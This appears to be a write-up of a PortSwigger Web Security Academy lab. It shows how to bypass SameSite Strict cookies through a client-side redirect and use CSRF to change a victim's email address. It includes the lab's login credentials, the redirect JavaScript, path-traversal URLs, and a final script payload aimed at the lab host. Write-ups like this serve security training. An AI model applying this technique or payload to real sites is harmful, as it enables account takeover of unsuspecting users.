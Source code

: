 
# SameSite Strict bypass via client-side redirect

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

You can log in to your own account using the following credentials: wiener:peter

Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.


---------------------------------------------

References: 

- https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions



![img](images/SameSite%20Strict%20bypass%20via%20client-side%20redirect/1.png)

---------------------------------------------

There is a POST request to update the email:



![img](images/SameSite%20Strict%20bypass%20via%20client-side%20redirect/2.png)

It is possible to change the method to GET and it still works:



![img](images/SameSite%20Strict%20bypass%20via%20client-side%20redirect/3.png)


After sending a comment to a blog post there is a redirection to /post:





![img](images/SameSite%20Strict%20bypass%20via%20client-side%20redirect/4.png)
![img](images/SameSite%20Strict%20bypass%20via%20client-side%20redirect/5.png)


We find there is a Javascript script generating this redirect in “/resources/js/commentConfirmationRedirect.js”:

```
redirectOnConfirmation = (blogPath) => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = blogPath + '/' + postId;
    }, 3000);
}
```



![img](images/SameSite%20Strict%20bypass%20via%20client-side%20redirect/6.png)


This is controlled by requests to “/post/comment/confirmation?postId=a”. We should change the “postId” parameter so it redirects to something like:

```
/post/../my-account/change-email?email=test5%40test.com&submit=1
```

So we can try something like this:

```
/post/comment/confirmation?postId=../my-account/change-email?email=test7%40test.com&submit=1
```

It redirects correctly but the parameter “submit” is not sent:



![img](images/SameSite%20Strict%20bypass%20via%20client-side%20redirect/7.png)


So we can try changing “&” with “%26”, the URL-encoded version:

```
/post/comment/confirmation?postId=../my-account/change-email?email=test7%40test.com%26submit=1
```

This time it works:



![img](images/SameSite%20Strict%20bypass%20via%20client-side%20redirect/8.png)


Payload:

```
<script>
    document.location = 'https://0a2900a103d6f68b83782d1900340012.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=test777%40test.com%26submit=1';
</script>
```